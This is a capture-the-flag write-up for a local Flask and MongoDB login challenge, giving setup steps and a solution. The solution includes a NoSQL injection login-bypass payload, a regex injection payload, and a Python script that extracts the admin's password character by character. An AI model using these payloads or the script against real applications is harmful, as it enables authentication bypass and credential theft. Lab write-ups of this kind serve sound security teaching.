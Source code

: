 # Web01

## Setup

- Update the flag

![Untitled](images/Untitled.png)

- Build and run the image

```python
docker compose up -d --build
```

- Access via [`http://localhost:13337`](http://localhost:13337/)
    
    This port can always be changed from the `docker-compose.yml` 
    
    ![Untitled](images/Untitled%201.png)
    

## Solution

We are given the challenge url and challenge file in zip format

![Untitled](images/Untitled%202.png)

Visiting the url, we are presented with a login page.

![Untitled](images/Untitled%203.png)

We try signing up but that functionality seems broken.

On login in, trying with common credentials doesn’t seem to work. On the other trying an apostrophe `'`  as our username / password yields an error.

![Untitled](images/Untitled%204.png)

Looking at the application source, we determine that it is a flask application with a mongodb database. We also determine that it has 3 routes: login, home and signup.

Examining the login route, we see that it accepts the username and password and queries the database without sanitisation.

![Untitled](images/Untitled%205.png)

From this, we know that the attack path must be mongodb injection.

We try different payload and the one that works is `' || 1==1%00` 

On bypassing the login page, we are given a hint to retrieve the admin’s password as the flag

![Untitled](images/Untitled%206.png)

Next, we need to craft our payload to exfiltrate the admin’s password

We are able to do that using regex match

Since we know our flag starts with `flag{` , we can validate this with the payload below

```python
' || this.password.match(/^flag{.*/)%00
```

![Untitled](images/Untitled%207.png)

I created a python script to exfiltrate this.

```python
import requests
import string
import re

url='http://localhost:13337'
flag='flag{'

# Check if we have the whole flag
while flag[-1] != '}':
    for c in string.printable:
        data=dict()
        data['username'] = 'admin'
        # Escape our payload
        payload = re.escape(flag + c)
        data['password'] = "' || this.password.match(/^{}.*/)\0".format(payload)
        resp=requests.post(url, data=data)#, proxies={'http': 'http://127.0.0.1:8080'})
        if 'flag' in resp.text:
            flag += c
            print('Flag: {}'.format(flag))
```

![Untitled](images/Untitled%208.png)
